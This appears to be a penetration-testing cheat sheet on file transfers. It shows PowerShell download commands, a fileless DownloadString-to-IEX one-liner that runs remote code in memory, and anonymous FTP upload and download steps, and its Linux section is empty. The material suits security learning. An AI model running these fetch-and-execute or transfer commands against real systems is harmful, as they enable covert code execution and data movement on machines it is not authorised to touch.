 ```yaml
---
title: "File Transfers for Penetration Testing"
date: 2024-07-30
---
```


---

# Windows

## Download Files using Powershell

The easiest way to download files using PowerShell is to use the `Net.WebClient` class. This class provides an intuitive way to download HTTP, HTTPS, and FTP files.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("http://example.com/file.txt", "C:\path\to\file.txt")
```

You can also use the Invoke-WebRequest cmdlet, which is the Windows equivalent of curl or wget. The -OutFile parameter specifies the download location.

```powershell
Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
curl -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
wget -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
```

## Download Fileless strings using Powershell

In rare cases, you may need to download a script without writing it to disk. This can be done using the Net.WebClient class and the DownloadString method. The IEX command is used to execute the downloaded content directly in memory.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadString("http://example.com/file.txt") | IEX
```

---

# Linux

---

# FTP

### Server

We can start an FTP server on a Linux or Windows machine using the following command. Just make sure to have the pyftpdlib package installed via pip or your preferred package manager:

```bash
sudo python3 -m pyftpdlib -i <IP> -p 21
```

### Client Download

Here’s how we can download a file from the FTP server:

```bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> get <FileName>
```

or

```bash
wget ftp://<IP>/<FileName>
```

### Client Upload

````bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> put <FileName>

```bash
curl -T localfile.txt ftp://anonymous:anonymous@ftp.<IP>/path/to/remote/file.txt
````

